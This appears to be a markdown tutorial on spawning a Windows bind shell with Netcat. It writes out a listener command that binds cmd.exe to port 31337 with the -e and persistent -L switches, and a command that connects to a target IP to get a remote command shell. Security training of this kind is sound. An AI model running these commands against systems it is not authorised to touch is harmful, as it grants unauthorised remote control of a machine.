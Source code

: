 ## WINDOWS REMOTE SHELL (AND SIMPLE POST-EXPLOITATION HI-JINKS)
To begin with, we will spawn a remote shell on a Windows platform in the following steps:

## Preparing the listener
To prepare the listener, we will type the following command into the command line:
```
nc –Lp 31337 –vv –e cmd.exe
```
![image](https://user-images.githubusercontent.com/47218880/68691944-38f45480-053a-11ea-9266-2854afd17158.png)

In the preceding example, we are using the capital L switch (-L) to maintain a persistent connection with the listener. This is only a Windows feature, and while it is possible to craft a script to do something similar on the Linux side, we will not be covering that in now. Keep in mind that under typical use, when we disconnect from our client machine, the Netcat executable terminates. With the –L switch, the executable continues to listen for new connection attempts.

The –vv switch tells Netcat to be extra verbose with its output. For this particular feature, the –vv switch will not do much; however, in file transfers and other use cases it will, as we will see later.

The –e switch is where the magic happens. As noted in the Installation section, the –e switch indicates the DGAPING_SECURITY_HOLE feature, and allows us to do the devious things we are about to do. cmd.exe is the name of the executable for a command shell in Windows. Now, given the context and the steps explained previously, perhaps it is more understandable as to why Antivirus packages and firewalls flag Netcat as potentially malicious.

## Connecting to the target
Connecting to the target is as simple as our first exercises, and simply consists of the following string:
```
nc 192.168.0.10 31337
```

![image](https://user-images.githubusercontent.com/47218880/68692055-6ccf7a00-053a-11ea-922f-7244c47da0e9.png)


## Running a directory listing on the target
Once we have our Windows command shell launched, we can interact with it as if we were using Telnet or working on the console directly.

![image](https://user-images.githubusercontent.com/47218880/68692091-7f49b380-053a-11ea-9725-e5e6ac191784.png)

![image](https://user-images.githubusercontent.com/47218880/68692114-896bb200-053a-11ea-831b-4365aa1180fa.png)




























